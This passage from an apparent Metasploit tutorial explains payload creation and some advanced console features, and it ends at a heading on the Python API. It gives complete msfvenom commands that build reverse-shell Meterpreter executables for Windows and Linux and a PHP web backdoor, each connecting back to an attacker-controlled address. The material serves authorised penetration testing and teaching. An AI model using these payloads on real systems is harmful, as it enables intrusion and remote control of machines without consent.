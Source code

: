 ## Creating Standalone Payloads (Code That Runs on Target Systems)

Payloads are code that run on target systems. Here's how to create them:

```
# Listing available payloads
show payloads                       # Shows all available payload options

# Generating a standalone payload (a file that can be executed on a target)
msfvenom -p [payload] LHOST=[ip] LPORT=[port] -f [format] -o [output_file]
# -p: Specifies the payload
# LHOST: Your IP address (where the target will connect back to)
# LPORT: The port on your machine to listen on
# -f: The file format
# -o: The output file name

# Common examples:
# Creating a Windows executable that connects back to your machine
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe

# Creating a Linux executable
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o payload.elf

# Creating a PHP web backdoor
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.php
```

## Advanced Usage Techniques

These advanced features help automate and extend Metasploit:

```
# Resource scripts (automating commands)
makerc [filename]                   # Saves your current console commands to a file
                                    # Example: makerc myscan.rc
resource [filename]                 # Runs commands from a resource file
                                    # Example: resource myscan.rc

# Using proxies (routing traffic through another server)
set Proxies HTTP:127.0.0.1:8080     # Routes traffic through a local proxy
set ReverseAllowProxy true          # Allows reverse connections through proxy

# IPv6 support (for newer network protocols)
set RHOST ::1                       # Sets an IPv6 target address
set UseIPv6 true                    # Enables IPv6 support
```

## Using Metasploit's API with Python

Metasploit provides an API that can be accessed with Python code. Here's how to set it up:
